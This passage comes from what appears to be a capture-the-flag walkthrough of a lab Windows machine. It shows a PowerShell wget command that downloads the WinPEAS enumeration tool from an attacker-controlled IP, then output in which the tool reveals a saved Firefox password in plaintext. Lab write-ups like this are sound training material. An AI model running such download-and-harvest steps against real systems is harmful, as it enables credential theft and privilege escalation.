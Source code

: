 Based on the password, it seems that it’s for the development account.

#### WinPeas

Props to [IppSec](https://www.youtube.com/watch?v=kA-bkftyyY0) for pointing out to me that [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) will actually decrypt these passwords automatically.

I’ll grab the [latest release](https://github.com/carlospolop/PEASS-ng/releases/tag/20220303) and upload it:

```

PS C:\ProgramData> wget http://10.10.14.6/winPEASx64.exe -outfile wp.exe -usebasicparsing

```

Now I’ll run it:

```

PS C:\ProgramData> .\wp.exe
             *((,.,/((((((((((((((((((((/,  */               
      ,/*,..*((((((((((((((((((((((((((((((((((,           
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*       
    ((((((((((((((((**********/########## .(* ,(((((((   
    (((((((((((/********************/####### .(. (((((((
    ((((((..******************/@@@@@/***/###### ./(((((((
    ,,....********************@@@@@@@@@@(***,#### .//((((((
    , ,..********************/@@@@@%@@@@/********##((/ /((((
...[snip]...

```

There’s a ton of output, but in there:

```

...[snip]...
=================================================================================================

 Browsers Information

͹ Showing saved credentials for Firefox
     Url:           http://localhost:8000
     Username:      hancliffe.htb
     Password:      #@H@ncLiff3D3velopm3ntM@st3rK3y*!

=================================================================================================
...[snip]...

```

### H@$hPa$$

#### Generate Password
